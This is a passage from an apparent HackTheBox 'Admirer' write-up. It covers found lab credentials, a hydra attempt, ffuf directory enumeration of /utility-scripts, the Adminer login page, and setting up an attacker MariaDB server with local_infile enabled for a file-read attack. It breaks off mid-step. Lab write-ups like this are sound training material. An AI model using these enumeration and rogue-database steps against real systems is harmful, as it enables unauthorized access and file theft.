 	0 directories, 4 files
	```
	> - `admin_tasks.php` - not vulnerable to any SQLi
	> - `db_admin` - Creds: `waldo:Wh3r3_1s_w4ld0?`
	> - `info.php` - not vulnerable 
	> - `phptest.php` - not vulnerable
	{: .prompt-info}
5. After obtaining more creds, `hydra` did not find any valid login.

## TCP/80 (HTTP) - /utility-scripts,  Found Adminer database management tool
1. Directory `/utility-scripts`  and the files residing in it exists, however, the `.php` files are not vulnerable.
2. Directory enumerate `/utility-scripts` against `big.txt`
	```
	┌──(root💀kali)-[~/htb/admirer/10.10.10.187]
	└─# ffuf -u http://admirer.htb/utility-scripts/FUZZ -w /usr/share/dirb/wordlists/big.txt -e '.txt,.php'
	
	info.php                [Status: 200, Size: 83860, Words: 4033, Lines: 962, Duration: 43ms]
	info.php                [Status: 200, Size: 83860, Words: 4033, Lines: 962, Duration: 48ms]
	adminer.php             [Status: 200, Size: 4295, Words: 189, Lines: 52, Duration: 107ms]
	:: Progress: [13848/13848] :: Job [1/1] :: 1075 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
	```
	- `adminer.php`
3. Found a login page @ `adminer.php`
	![]({{ page.img_path }}Pasted%20image%2020220928041707.png)
4. I knew exactly what to do because I exploited the same vulnerability in Vulnhub ReadMe


## TCP/80 (HTTP) - Setup MySQL on Kali
1. Install MySQL
	``` 
	┌──(root💀kali)-[~/vulnHub/ReadMe]
	└─# sudo apt-get install mariadb-server
	```
2. Authenticate
	``` 
	mysql 
	```
3. Create a user w/ all privileges on a database
	``` 
	MariaDB [mysql]> CREATE USER 'yf'@'%' IDENTIFIED WITH mysql_native_password;
	Query OK, 0 rows affected (0.001 sec)

	MariaDB [mysql]> SET PASSWORD FOR 'yf'@'%' = PASSWORD('password');
	Query OK, 0 rows affected (0.001 sec)

	MariaDB [mysql]> GRANT ALL PRIVILEGES ON *.* TO 'yf'@'%';
	Query OK, 0 rows affected (0.000 sec)
	```
4. Enable `local_infile` on Kali's MySQL Server
	``` 
	SET GLOBAL local_infile = true;
	```
5. Verify that `local_infile` is enabled
	``` 
	SHOW GLOBAL VARIABLES LIKE 'local_infile';
	```
	![]({{ page.img_path }}Pasted%20image%2020220218195517.png)
6. Allow remote connections
	``` 